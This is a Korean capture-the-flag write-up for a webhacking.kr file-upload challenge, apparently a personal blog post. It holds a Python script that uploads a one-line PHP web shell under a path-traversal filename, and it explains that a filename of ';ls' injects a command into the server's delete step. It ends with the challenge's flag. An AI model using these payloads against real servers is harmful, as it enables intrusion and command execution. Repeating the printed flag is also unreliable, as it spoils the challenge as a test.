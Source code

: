 # [목차]
**1. [Description](#Description)**

**2. [Write-Up](#Write-Up)**

**3. [FLAG](#FLAG)**


***


# **Description**

![](images/2022-01-03-11-41-27.png)


# **Write-Up**

php 파일을 올려보면 텍스트로 올라간다.

![](images/2022-01-03-11-41-43.png)

파일 명에 경로를 줘도 안된다.

```python
import requests

CHALLENGE   = 'http://webhacking.kr:10006/'
SESSION_ID  = '89p9cj0epl0c4lvs5tg0abkbqc'
headers     = {'Cookie':'PHPSESSID='+SESSION_ID}
files       = {'upfile':('../test.php','<?php system($_GET[\'cmd\']); ?>')}
data        = {'memo':'a'}
req         = requests.post(CHALLENGE, headers=headers, files=files, data=data)
```

하지만 파일 명에 OS Command를 주면 먹는다. Delete 버튼을 클릭하면 아무래도 system함수로 삭제하나 보다.

;ls 라는 파일을 업로드 후 삭제하면 FLAG를 획득할 수 있다.

![](images/2022-01-03-11-42-09.png)

* index.php를 보면 system(rm 파일명)을 사용한다. 또한 파일명에서 ..을 필터링한다.

FLAG를 인증하여 점수를 획득하자.

![](images/2022-01-03-11-42-16.png)


# **FLAG**

**FLAG{i_think_this_chall_is_cool}**